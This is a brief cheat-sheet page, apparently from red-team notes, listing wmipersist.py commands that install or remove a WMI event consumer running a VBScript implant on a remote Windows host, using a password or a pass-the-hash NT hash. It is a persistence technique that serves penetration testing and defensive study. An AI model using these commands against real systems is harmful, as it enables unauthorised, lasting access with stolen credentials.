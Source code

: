 # Unix Shell

TODO: Fill this info

Install WMIConsumer.

```
$ wmipersist.py [<domain>/]<username>:<password>@<IP> install -name <name> -vbs implant.vbs -filter

$ wmipersist.py [<domain>/]<username>@<IP> -hashes :<nt_hash> install -name <name> -vbs implant.vbs -filter
```

Remove WMIConsumer.

```
$ wmipersist.py [<domain>/]<username>:<password>@<IP> remove -name <name> -filter

$ wmipersist.py [<domain>/]<username>@<IP> -hashes :<nt_hash> remove -name <name> -filter
```